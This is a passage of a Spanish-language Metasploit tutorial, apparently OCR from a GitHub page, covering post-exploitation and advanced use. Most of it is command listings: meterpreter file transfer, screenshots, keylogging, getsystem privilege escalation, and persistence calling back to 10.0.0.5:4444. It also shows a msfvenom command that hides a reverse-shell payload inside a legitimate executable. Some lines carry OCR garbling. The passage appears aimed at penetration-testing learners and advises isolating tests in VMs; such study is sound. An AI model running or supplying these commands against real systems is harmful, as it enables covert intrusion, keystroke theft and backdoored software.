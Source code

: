 6. Post-explotación

Descripción: Escalada de privilegios, recolección y persistencia.

# Información del sistema
meterpreter > sysinfo

# Subir/descargar ficheros
meterpreter > upload local_tool.exe C:\Windows\Temp\tool.exe
meterpreter > download C:\Ruta\log.txt ./log.txt

# Captura de pantalla\ nmeterpreter > screenshot

# Búsqueda de archivos
meterpreter > search -f *.docx

# Escalada de privilegios\ nmeterpreter > run post/windows/escalate/getsystem

# Keylogging\ nmeterpreter > keylog_start

# Persistencia\ nmeterpreter > run persistence -U -i 10 -p 4444 -r 10.0.0.5

7. Uso avanzado de Metasploit

Descripción: Ocultar payloads y usar Armitage.

# Injertar payload en ejecutable legítimo
msfvenom -x original.exe \
         -p windows/meterpreter/reverse_tcp \
         LHOST=10.0.0.5 LPORT=4444 \
         -k -f exe -o modificado.exe

Armitage:

Inicia PostgreSQL y Metasploit.

Ejecuta armitage.

Conecta y añade hosts con la GUI.

8. Recomendaciones finales

Aísla tus pruebas en VM.

Actualiza Metasploit periódicamente:

msf6 > msfupdate

Documenta cada paso.

Consulta la documentación oficial de Metasploit.

Explora módulos en GitHub: metasploit-framework/modules.

